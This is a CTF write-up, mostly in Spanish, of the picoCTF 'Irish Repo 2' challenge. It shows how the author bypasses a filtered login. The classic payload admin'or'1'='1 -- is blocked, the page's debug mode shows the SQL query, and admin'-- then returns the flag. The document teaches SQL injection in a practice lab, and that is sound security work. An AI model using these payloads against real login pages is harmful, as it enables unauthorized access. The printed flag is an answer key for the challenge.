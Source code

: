 # USERNAME -> amcdanymx

# Irish Repo 2


## Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Pistas
- The password is being filtered.

## Solución
Entramos al link que se nos proporciona, al entrar al sitio vemos que 
se parece al primer desafío,  así que vayamos al inicio de sesión del administrador, entonces probemos el Basic Payload como antes

*admin'or'1'='1 --* 

Nos muestra lo siguiente al entrar:

#### SQLi detected.

Vemos el código fuente del sitio para revisar el login probablemente 
Tenemos el modo de debug  0
Lo que haré es cambiarlo de 0 a 1


```

username: admin'or'1'='1
password: admin'or'1'='1 --
SQL query: SELECT * FROM users WHERE name='admin'or'1'='1' AND password='admin'or'1'='1 --'

# SQLi detected.
```

Vemos que pasa si ingresamo como lo siguiente:

```
admin'--
```

Conseguimos la bandera
```
picoCTF{m0R3_SQL_plz_c34df170}

```